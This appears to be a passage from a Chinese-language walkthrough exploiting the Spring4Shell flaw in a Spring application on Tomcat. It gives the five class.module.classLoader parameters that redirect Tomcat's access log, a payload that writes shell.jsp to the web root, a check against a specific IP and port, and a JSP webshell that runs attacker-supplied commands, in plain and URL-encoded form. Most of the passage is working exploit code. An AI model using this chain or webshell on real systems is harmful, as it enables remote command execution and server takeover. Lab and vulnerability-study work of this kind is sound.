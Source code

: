 需要依次发送5个请求

完整利用链：

```
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
构建文件的内容
 
?class.module.classLoader.resources.context.parent.pipeline.first.suffix=
修改tomcat日志文件后缀
 
?class.module.classLoader.resources.context.parent.pipeline.first.directory=
写入文件所在的网站根目录
 
?class.module.classLoader.resources.context.parent.pipeline.first.prefix=
写入文件名称
 
?class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
文件日期格式（实际构造为空值即可）
```

构造payload:

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=spring
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

![image-20241015124700952](https://s2.loli.net/2024/10/15/k8p7NoVwvrbUgmZ.png)

访问http://123.58.236.76:27379/shell.jsp，出现spring说明写入成功

![image-20241015124812476](https://s2.loli.net/2024/10/15/px2vR3AWCaUkfcB.png)

接下来需要做的就是将内容更改为webshell，并让它解析就可以了
写入webshell到网站根目录

```
url编码前的webshell：
%{c2}i if("t".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i

url编码后的webshell：
%25%7Bc2%7Di%20if(%22t%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di

```

要注意这加上这几个参数
